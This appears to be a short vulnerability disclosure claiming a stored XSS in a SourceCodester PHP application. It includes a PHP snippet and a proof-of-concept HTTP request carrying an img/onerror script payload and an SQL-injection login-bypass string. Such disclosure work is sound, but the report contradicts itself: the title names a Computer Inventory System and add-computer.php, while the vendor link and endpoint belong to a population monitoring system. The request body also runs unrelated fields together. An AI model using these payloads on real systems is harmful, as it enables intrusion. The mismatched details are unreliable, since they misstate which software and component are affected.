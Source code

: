 # SOURCECODESTER / Computer Inventory System - add-computer.php STORED XSS

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17109/barangay-population-monitoring-system-using-php-mysql-and-chartjs-source-code.html

## Affected Component
> /endpoint/update-resident.php

## Code
```php
if (isset($_POST['full_name'], $_POST['address'], $_POST['contact_number'])) {
        $residentID = $_POST['tbl_resident_id'];
        $fullName = $_POST['full_name'];
        $address = $_POST['address'];
        $contactNumber = $_POST['contact_number'];

        try {
            $checkStmt = $conn->prepare("SELECT full_name FROM tbl_resident WHERE full_name = :full_name");
            $checkStmt->bindParam(":full_name", $fullName, PDO::PARAM_STR);
            $checkStmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/update-resident.php HTTP/1.1
Host: [REDACTED]
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

tbl_resident_id=1&full_name=%3e%3cimg%20src%3dx%20onerror%3dalert('NoChizPlZ')%3e&address=Purkok+1&contact_number=%28551%29+577-2147email=nochizplz%40nochizplz.com&password=nochizplz'+or+1%3d1+limit+1%23
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/aca77ced-34ee-42e1-976d-0534ba155d0c)
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/b48eb9bc-ef1a-4087-84e4-b0c3828dfeb4)

